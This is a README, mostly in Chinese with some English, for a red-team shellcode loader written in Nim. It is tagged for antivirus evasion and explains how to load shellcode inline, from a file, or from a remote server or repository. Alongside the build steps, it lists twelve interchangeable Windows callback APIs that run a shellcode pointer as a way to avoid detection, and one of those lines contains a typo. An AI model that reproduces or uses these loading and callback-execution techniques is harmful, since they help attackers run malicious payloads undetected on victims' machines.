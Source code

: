 # nim_shellloader
nim,免杀,红队,shellcode,bypass

nim编写的shell_loader

详见以下:
details:
# usage
```
loader.exe payload.bin
loader.exe  (yourshellcode)
loader.exe (http://xxxx/xxx)
```
put your url/bin/shellcode direct
后面直接跟shellcode内容 或者bin文件名 或者网址就行


①use shellcode:

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/1.gif)

②use bin file

使用bin文件加载shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/2.gif)

③ load the shellcode which on your server(remote load)
加载你服务器上的shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/3.gif)

Besides,You can load shellcode which on your reposiotory(gitee,github,etc.) like this

此外 你还可以把shellcode放在github，gitee的地方让loader去读

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/4.png)

Notice:You must remove '\x' on your shellcode

注意:你必须去除你shellcode中的 \x

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/5.png)


查杀情况


![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/6.png)

# 编译 compile

step1:   setup  require   安装所需的库
```
nimble install https://gitee.com/oagi/winim.git
nimble install https://gitee.com/oagi/nim-stew
```
step2: generate exe   生成exe
```
nim c --cpu:i386 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
# Advise 建议
windows上编译容易出现玄学问题 可以用debian11交叉编译 不过记得要装mingw
It's easy to have problem if you compile it on Windows Platform.In my opion,you'd better compile it on Linux

## 源码中的EnumSystemGeoID回调函数可以换成以下函数 等价
```
# Callback execution
    EnumSystemGeoID(GEOCLASS_NATION,0,cast[GEO_ENUMPROC](rPtr)) #①
    EnumChildWindows(cast[HWND](nil),cast[WNDENUMPROC](rPtr),cast[LPARAM](nil))#②
    EnumDateFormatsA(cast[DATEFMT_ENUMPROCA](rPtr) , LOCALE_SYSTEM_DEFAULT, cast[DWORD](0))#③
    EnumDesktopsW(GetProcessWindowStation(),cast[DESKTOPENUMPROCW](rPtr), cast[LPARAM](nil))#④
    EnumDesktopWindows(GetThreadDesktop(GetCurrentThreadId()),cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#⑤
    EnumSystemCodePagesA(cast[CODEPAGE_ENUMPROCA](rPtr) ,0)#⑥
    EnumSystemCodePagesW(cast[CODEPAGE_ENUMPROCW](rPtr), CP_INSTALLED)#⑦
    EnumSystemLanguageGroupsA(cast[LANGUAGEGROUP_ENUMPROCA](rPtr),LGRPID_SUPPORTED,0)#⑧
    EnumSystemLocalesA(cast[LOCALE_ENUMPROCA](rPtr) ,nil)#⑨
    EnumThreadWindows(0,csat[WNDENUMPROC](rPtr),0) #⑩
    EnumUILanguagesA(cast[UILANGUAGE_ENUMPROCA](rPtr), MUI_LANGUAGE_ID, 0)#11
    EnumWindows(cast[WNDENUMPROC](rPtr), nil)#12
```
